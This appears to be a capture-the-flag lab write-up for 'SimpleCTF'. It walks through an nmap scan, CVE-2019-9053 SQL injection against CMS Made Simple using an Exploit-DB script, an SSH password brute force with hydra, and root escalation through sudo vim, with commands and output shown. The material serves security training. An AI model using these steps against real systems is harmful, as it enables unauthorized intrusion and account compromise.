


> # SimpleCTF

# Summary
<!-- TOC -->

- [Summary](#summary)
    - [How many services are running under port 1000?](#how-many-services-are-running-under-port-1000)
    - [How many services are running under port 1000?](#how-many-services-are-running-under-port-1000)
    - [What is running on the higher port?](#what-is-running-on-the-higher-port)
    - [What's the CVE you're using against the application?](#whats-the-cve-youre-using-against-the-application)
    - [To what kind of vulnerability is the application vulnerable?](#to-what-kind-of-vulnerability-is-the-application-vulnerable)
    - [What's the password?](#whats-the-password)
    - [Where can you login with the details obtained?<br>](#where-can-you-login-with-the-details-obtainedbr)
    - [What's the user flag?](#whats-the-user-flag)
    - [Is there any other user in the home directory? What's its name?<br>](#is-there-any-other-user-in-the-home-directory-whats-its-namebr)
    - [What can you leverage to spawn a privileged shell?](#what-can-you-leverage-to-spawn-a-privileged-shell)
    - [What's the root flag?](#whats-the-root-flag)
- [Reference](#reference)

<!-- /TOC -->

```
sudo nmap -Pn 10.10.222.120 -A
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-27 04:21 EST
Nmap scan report for 10.10.222.120
Host is up (0.22s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.61.205
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
|_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 5.4 (91%), Crestron XPanel control system (90%), Linux 3.10 - 3.13 (89%), ASUS RT-N56U WAP (Linux 3.4) (87%), Linux 3.1 (87%), Linux 3.16 (87%), Linux 3.2 (87%), HP P2000 G3 NAS device (87%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (87%), Linux 2.6.32 (86%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
## How many services are running under port 1000?
**Answer:** 2

## What is running on the higher port?
**Answer:** ssh

## What's the CVE you're using against the application?
Use `gobuster`, I found a directory `simple` run CMS application version 2.2.8.<br>
<br>
<br>
Search on Metasploit to fin CVE, select module and display its info then search this title on Google you will see the CVE.<br>
**Answer:** CVE-2019-9053

## To what kind of vulnerability is the application vulnerable?
It's SQL Injection
**Answer:** SQLi

## What's the password?
Use python script on [link](https://www.exploit-db.com/exploits/46635), specify URI for `-u` option, wordlist for `-w`, `-c` for crack password. It will perform Blind SQL injection to get the full hash password.<br>
```
python3 exploit.py -u http://10.10.23.210/simple/
[+] salt = 1dac0d92e9fa6bb2
[+} username = mitch
[+] email = admin@admin.com
```
I found a username `mitch`, use `hydra` to bruteforce password for ssh.<br>
```
hydra -l mitch -P /usr/share/wordlists/rockyou.txt ssh://10.10.23.210:2222 
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-01-27 08:12:37
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.23.210:2222/
[2222][ssh] host: 10.10.23.210   login: mitch   password: secret
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-01-27 08:13:04
```
**Answer:** secret

## Where can you login with the details obtained?<br>
**Answer:** SSH

## What's the user flag?
Login with SSH to read the user flag.<br>
<br>
<!-- G00d j0b, keep up! -->
**Answer:** \<redacted>

## Is there any other user in the home directory? What's its name?<br>
List `/home` folder to find other user
```
$ ls /home
mitch  sunbath
```
**Answer:** sunbath

## What can you leverage to spawn a privileged shell?
Use `sudo -l` to list binary files which `mitch` could run as `root` without root's password.<br>
```
$ sudo -l
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
```
**Answer:** vim

## What's the root flag?
Use `vim` to spawn a root shell then read the root flag.<br>

<!-- W3ll d0n3. You made it! -->
**Answer:** \<redacted>

# Reference
* https://gtfobins.github.io/gtfobins/vim/
* https://www.exploit-db.com/exploits/46635
